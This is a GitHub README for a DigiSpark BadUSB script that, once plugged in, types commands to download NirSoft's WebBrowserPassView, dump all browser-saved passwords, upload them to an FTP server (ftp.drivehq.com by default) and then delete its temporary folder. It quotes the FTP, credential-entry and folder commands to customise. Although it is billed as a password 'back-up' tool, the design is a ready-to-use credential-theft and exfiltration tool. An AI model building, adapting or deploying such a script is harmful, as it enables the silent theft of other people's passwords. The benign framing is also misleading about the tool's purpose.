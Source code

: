# Digispark-PasswordRetriever
<br/>
<p align="center">
  <a href="https://github.com/dehmitros/Digispark-PasswordRetriever">
    <img src="https://i.imgur.com/qkDFmPA.png" alt="Logo" width="80" height="80">
  </a>

  <h3 align="center">Digispark Password Retriever</h3>

  <p align="center">
    Back-up all your passwords in a few minutes!
    <br/>
    <br/>
    <a href="https://github.com/dehmitros/Digispark-PasswordRetriever/issues">Report Bug</a>
    .
  </p>
</p>

![Downloads](https://img.shields.io/github/downloads/dehmitros/Digispark-PasswordRetriever/total) 

## Table Of Contents

* [About the Project](#about-the-project)
* [Getting Started](#getting-started)
  * [Prerequisites](#prerequisites)
* [Usage](#usage)
* [License](#license)
* [Author](#authors)

## About The Project

Every password you've ever saved in your browser gets chached. While this does raise some security concerns, it means backing-up and moving passwords from one computer to another is relatively easy. What this script does is it uses NirSoft's very well-known password retrieving tool (WebBrowserPassView), and automatically upload it to a specified FTP server using a dirt-cheap arduino-compatible board called DigiSpark.

## Getting Started

Firstly you need to download the script and open it in your Arduino IDE.
Either click on the green "Code" button > Download as zip
or
Select the script you want to use and copy-paste it to your Arduino IDE.

### Prerequisites

After you've opened the script, you will need to modify a few things.

Firstly, you need to specify what FTP server you're using (default is ftp.drivehq.com since it offers a free account).

Go to 
```sh
DigiKeyboard.print("open ftp.drivehq.com");
```
and change it according to your needs.

You will then need to type your username/password for the FTP server 2 times each
Firstly in 
```sh
//get file through FTP
```
and secondly in
```sh
//send file through FTP
```

Both look like this
```sh
DigiKeyboard.print("username");
DigiKeyboard.sendKeyStroke(KEY_ENTER);
DigiKeyboard.delay(1200);
DigiKeyboard.print("password");
DigiKeyboard.sendKeyStroke(KEY_ENTER);
```

Additionally you can also change the directory the script makes + it's location by modifying the lines
```sh
DigiKeyboard.print("mkdir C:\\t3mp0r4ry");
DigiKeyboard.print("rmdir C:\\t3mp0r4ry /s");
DigiKeyboard.print("cd C:\\t3mp0r4ry");
 ``` 
(The last one appears 2 times)

Lastly you can modify the delays depending on the speeds of your computer, they look like this
```sh
DigiKeyboard.delay("enter number in milliseconds");
 ``` 


## Usage

Just upload the modified script to your DigiSpark and you're good to go!

### Creating A Pull Request



## License

Distributed under the MIT License. See [LICENSE](https://github.com/dehmitros/Digispark-PasswordRetriever/blob/main/LICENSE.md) for more information.

## Authors

* **DehMitros**[DehMitros](https://github.com/dehmitros/) - **

